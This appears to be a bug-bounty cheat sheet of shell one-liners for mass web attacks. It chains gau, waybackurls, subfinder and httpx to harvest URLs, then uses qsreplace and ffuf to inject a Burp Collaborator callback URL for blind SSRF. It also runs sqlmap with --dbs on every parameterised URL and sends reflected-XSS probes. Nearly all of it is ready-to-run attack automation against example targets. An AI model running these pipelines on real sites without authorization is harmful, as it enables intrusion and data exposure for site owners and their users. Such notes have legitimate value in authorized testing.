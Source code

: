 KaleShiri



TOOLS used for the exploitation:\n
gf (tomnomnom) — https://github.com/tomnomnom/gf
qsreplace(tomnomnom) — https://github.com/tomnomnom/qsreplace)
ffuf — https://github.com/ffuf/ffuf
gau(Corben) — https://github.com/lc/gau
waybackurls(tomnomnom) — https://github.com/tomnomnom/waybackurls



urls from web achieve using waybackurls and gau . Here is command i used for that
Command used:
gau -subs example.com
waybackurls example.com


grep out all the urls containing parameters and sort them uniquely and save it in file. So that can fuzzing for blind ssrf
Command used:
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u >> testblindssrf.txt


i used qsreplace to replace all parameter value with burpcollaborator server payload and fuzz it with ffuf.
.Command used:
cat testblindssrf.txt | qsreplace “http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net" >> ssrfuzz.txt
ffuf -c -w ssrfuzz.txt -u FUZZ -t 200



waybackurls google.com | grep "\\.js" | uniq | sort


--------------------------------------------------------------------------------------
Automate finding ssrf:
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
After Getting all URLS we will sort all the URL and resolve it remove false positive:
cat blindssrftesturl.txt | sort -u |anew | httpx |tee -a prefinal_ssrftesturl.txt
cat prefinal_ssrftesturl.txt | gf ssrf >> final_ssrftesturl.txt
cat final_ssrftesturl.txt |qsreplace “Burp collaborator server” >> ssrf_auto-ffuf.txt
ffuf -c -w ssrf_auto-ffuf.txt -u FUZZ



----------------------------------------------------------------------------------------
Automate SQLi
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt
sqlmap -m FUZZvul.txt --random-agent --dbs 


--------------------------------------------------------------------------------------------
reflected xss
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | qsreplace “xsst<>”| httpx -silent >> FUZZvul.txt
xargs -a /root/magicparameter/ssrf.txt -I@ bash -c ‘for url in $(cat FUZZvul.txt); do echo “$url&@=xsst<>”;done’ | httpx -http-proxy http://127.0.0.1:8080


------------------------------------------------------------------------------------------
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt

---------------------------------------------------------------------------------------
